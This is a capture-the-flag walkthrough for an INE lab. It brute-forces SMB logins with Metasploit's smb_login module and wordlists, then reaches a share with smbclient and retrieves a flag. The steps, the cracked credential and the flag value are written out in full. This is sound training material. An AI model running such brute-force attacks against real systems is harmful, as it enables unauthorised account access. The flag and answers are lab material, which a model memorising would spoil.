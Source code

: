 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use Metasploit to brute force SMB credentials using user and password wordlists. Once valid credentials are found, access the SMB share and retrieve the flag.

---

## Tools Used

- Metasploit (`msfconsole`)
- Wordlists (`users.txt` and `unix_passwords.txt`)
- `smbclient` to access shares after cracking

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```

### 🔹 Step 2: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```

### 🔹 Step 3: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```

### 🔹 Step 4: Valid Credentials Found
```yaml
josh : purple
```

### 🔹 Step 5: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```

### 🔹 Step 6: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```

Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.
